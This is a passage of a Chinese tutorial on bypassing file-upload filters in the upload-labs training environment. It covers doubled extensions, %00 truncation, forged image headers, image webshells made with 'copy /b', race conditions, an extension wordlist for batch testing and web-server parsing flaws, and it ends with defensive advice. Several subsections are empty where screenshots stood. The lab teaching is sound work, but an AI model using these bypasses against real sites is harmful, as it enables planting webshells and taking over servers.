








## 14. 双写后缀名绕过

### 14.1 简介

在上传模块，有的代码会把黑名单的后缀名替换成空，例如 a.php 会把 php 替换成空，但是可以使用双写绕过例如 asaspp，pphphp，即可绕过上传。

### 14.2 代码分析

pass-10

同样是黑名单过滤。str_ireplace 对上传的后缀名是黑名单内的字符串转换成空。



### 14.3 上传攻击

抓包上传，把后缀名改成 pphphp 即可绕过上传





## 15. 目录可控%00 截断绕过

### 15.1 简介

以上都是一些黑名单被绕过的，如果黑名单上传检测后，没有限定后缀名，绕过的方法很多，与黑名单相对的就是白名单，使用白名单验证会相对比较安全，因为只允许指定的文件后缀名。但是如果有可控的参数目录，也存在被绕过的风险。

### 15.2 代码分析

pass-11

代码中使用白名单限制上传的文件后缀名，只允许指定的图片格式。但是`$_GET['save_path']`服务器接受客户端的值，这个值可被客户端修改。所以会留下安全问题。



### 15.3 上传攻击

上传参数可控：

1、当 gpc 关闭的情况下，可以用%00 对目录或者文件名进行截断。

2、php 版本小于 5.3.4，建议直接使用作者提供的集成环境

[https://github.com/c0ny1/upload-labs/releases](https://github.com/c0ny1/upload-labs/releases)

关闭magic_quotes_gpc=off



首先截断攻击，抓包上传将%00 自动截断后面内容。

例如：1.php%00.1.jpg 变成 1.php








## 16. 目录可控 POST 绕过

### 16.1 简介

上面是 GET 请求的，可以直接在 url 输入%00 即可截断，但是在 post 下直接注入%00 是不行的，需要把%00 解码变成空白符，截断才有效。才能把目录截断成文件名。

### 16.2 代码分析

pass-12

这段代码同样是白名单限制后缀名，$_POST['save_path']是接收客户端提交的值，客户端可任意修改。所以会产生安全漏洞。


### 16.3 上传攻击

文件名可控，通过抓包修改可控的参数，与不同的中间件的缺陷配合使用。

使用%00 截断文件名，在 post 环境下%00 要经过 decode，但是受 gpc 限制使用 burpsutie POST %00 截断文件名。


## 17. 文件头检测绕过

### 17.1 简介

有的文件上传，上传时候会检测头文件，不同的文件，头文件也不尽相同。常见的文件上传图片头检测，它检测图片是两个字节的长度，如果

不是图片的格式，会禁止上传。

常见的文件头：

1、JPEG (jpg)，文件头：FFD8FF

2、PNG (png)，文件头：89504E47

3、GIF (gif)，文件头：47494638

4、TIFF (tif)，文件头：49492A00

5、Windows Bitmap (bmp)，文件头：424D

### 17.2 代码分析

pass-13

这个是存在文件头检测的上传，getReailFileType 是检测 jpg、png、gif 的文件头，如果上传的文件符合数字即可通过检测。


### 17.3 上传攻击

#### 17.3.1 第一种方法，制作图片马

制作图片一句话，使用`copy /b 1.jpg + 2.php 3.jpg`，将php文件附加到jpg图片上，直接上传即可。(为了图片格式标准，此处建议使用QQ截图保存的图片)


此处有个`文件包含漏洞`，在网站根目录下发现了include.php文件


利用include.php文件，访问此图片


#### 17.3.2 第二种方法，数据包头加上 GIF89a


## 18. 图片检测函数绕过

### 18.1 代码分析

pass-14

getimagesize 是获取图片的大小，如果头文件不是图片会报错直接可以用图片马绕过检测。


### 18.2 绕过攻击


## 19. 绕过图片二次渲染

### 19.1 简介

有些图片上传，会对上传的图片进行二次渲染后在保存，体积可能会更小，图片会模糊一些，但是符合网站的需求。例如新闻图片封面等可能需要二次渲染，因为原图片占用的体积更大。访问人数太多时候会占用很大带宽。二次渲染后的图片内容会减少，如果里面包含后门代码，可能会被省略。导致上传的图片马，恶意代码被清除。

### 19.2 代码分析

pass-16

只允许上传 JPG PNG gif，在源码中使用 imagecreatefromgif 函数对图片进行二次生成。生成的图片保存在upload 目录下。


### 19.3 绕过图片二次渲染

首先判断图片是否允许上传 gif，gif 图片在二次渲染后，与原图片差别不会太大。所以二次渲染攻击最好用 gif图片马。

制作图片马：

将原图片上传，下载渲染后的图片进行对比，找相同处，覆盖字符串，填写一句话后门，或者恶意指令。

使用工具：HxDHexEditor2.3.0.0


## 20. 条件竞争绕过文件删除

条件竞争漏洞（Race condition）官方概念是——竞争条件发生在多个线程同时访问同一个共享代码、变量、文件等没有进行锁操作或者同步操作的场景中。服务器对上传文件的操作大多数都是单线程处理，当我们执行多个线程时可以绕过一些服务器端的防御。

这里使用了unlink函数来删除不符合的文件，但代码执行的过程是需要耗费时间的。如果我们能在上传的一句话被删除之前访问就可以了。这个也就叫做条件竞争上传绕过。


使用BP拦截上传的包并放到intruder模块


停止攻击之后再访问


## 21. 文件名可控绕过

### 21.1 简介

文件上传时,文件名的可被客户端修改控制,会导致漏洞产生。

### 21.2 代码分析

pass-19

采用黑名单限制上传文件,但是`$_POST['save_name']`文件是可控的,可被客户端任意修改,造成安全漏洞.


### 21.3 绕过攻击

主要有两种：

1.上传文件,文件采用%00 截断,抓包解码例如 pinfo.php%00.php 截断后pinfo.php 或者使用/.

2.与中间的漏洞配合使用，例如 iis6.0 上传 1.php;1.jpg，apache 上传 1.php.a 也能解析文件，a.asp;1.jpg 解析成 asp

#### 21.3.1 %00截断

%00 截断需要gpc关闭，抓包，解码，提交即可截断文件名，php版本小于 5.3.4


#### 21.3.2 /.截断


## 22. 通用检测方法

判断是否为黑白名单，如果是白名单 寻找可控参数。如果是黑名单禁止上传，可以用有危害的后缀名批量提交测试，寻找遗留的执行脚本。

```bash
.php
.php5
.php4
.php3
.php2
.html
.htm
.phtml
.pht
.pHp
.phP
.pHp5
.pHp4
.pHp3
.pHp2
.Html
.Htm
.pHtml
.jsp
.jspa
.jspx
.jsw
.jsv
.jspf
.jtml
.jSp
.jSpx
.jSpa
.jSw
.jSv
.jSpf
.jHtml
.asp
.aspx
.asa
.asax
.ascx
.ashx
.asmx
.cer
.aSp
.aSpx
.aSa
.aSax
.aScx
.aShx
.aSmx
.cEr
.sWf
.swf
.htaccess
```

使用 burpsuite 抓包上传将后缀名设置成变量，把这些文件设置成一个字典批量提交。

pass-05


## 23. 数组绕过

编写一个测试的PHP文件

```php
<?php
$file = $_GET['save_name'];
echo $file_name = reset($file) . '.' . $file[count($file) - 1];
// reset()如果成功则返回数组中第一个元素的值，如果数组为空则返回 FALSE。
?>
```


如果将数组的下标修改大于1，那么就得不到文件的格式，会使用.来替代


在windows中，并不能支持以.结尾，就会自动删除掉最后的.

move_uploaded_file()函数中，也会忽略掉文件末尾的 /.

那么这个文件保存的名字就变成了xx.php

### 23.1 代码分析


### 23.2 绕过攻击


## 24. 文件上传其他漏洞

+ nginx 0.83 /1.jpg%00php
+ apahce 1x 或者 2x
  - 当 apache 遇见不认识的后缀名，会从后向前解析例如 1.php.rar 不认识 rar 就向前解析，直到知道它认识的后缀名。
+ phpcgi 漏洞(nginx iis7 或者以上) 上传图片后 1.jpg。访问 1.jpg/1.php 也会解析成php。
+ Apache HTTPD 换行解析漏洞（CVE-2017-15715）apache 通过 mod_php 来运行脚本，其 2.4.0-2.4.29 中存在 apache 换行解析漏洞，在解析 php 时 xxx.php\x0A 将被按照 PHP 后缀进行解析，导致绕过一些服务器的安全策略。

## 25. 文件上传的防御方法

1、服务器端使用白名单防御。

2、修复 web 中间件的漏洞。

3、禁止客户端存在可控参数。

4、存放文件目录禁止脚本执行。

5、限制后缀名 一定要设置图片格式 jpg、gif 、png。

6、文件名随机的，不可预测。


